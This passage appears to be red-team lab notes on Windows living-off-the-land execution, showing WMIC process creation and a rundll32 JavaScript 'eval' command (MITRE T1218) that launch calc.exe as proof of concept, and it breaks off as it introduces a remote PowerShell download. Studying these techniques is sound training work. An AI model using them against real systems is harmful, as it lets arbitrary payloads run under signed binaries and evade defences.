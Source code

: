 ```
Command Prompt

           
			
C:\Users\thm>wmic.exe process call create calc
Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 1740;
        ReturnValue = 0;
};


C:\Users\thm>

	    
```

![[Pasted image 20220910224303.png]]

The previous WMIC command creates a new process of a binary of our choice, which in this case calc.exe.

Rundll32

Rundll32 is a Microsoft built-in tool that loads and runs Dynamic Link Library DLL files within the operating system. A red team can abuse and leverage rundll32.exe to run arbitrary payloads and execute JavaScript and PowerShell scripts. The MITRE ATT&CK framework identifies this as Signed Binary Proxy Execution: Rundll32 and refers to it as T1218.

The rundll32.exe binary is located at:

    C:\Windows\System32\rundll32.exe for the Windows 32 bits version
    C:\Windows\SysWOW64\rundll32.exe for the Windows 64 bits version

Now let's try to execute a calc.exe binary as proof of concept using the rundll32.exe binary:

```
Command Prompt

           
			
C:\Users\thm> rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");

	    
```

In the previous command, we used the rundll32.exe binary that embeds a JavaScript component, eval(), to execute the calc.exe binary, a Microsoft calculator.

As we mentioned previously, we can also execute PowerShell scripts using the rundll32.exe. The following command runs a JavaScript that executes a PowerShell script to download from a remote website using rundll32.exe.
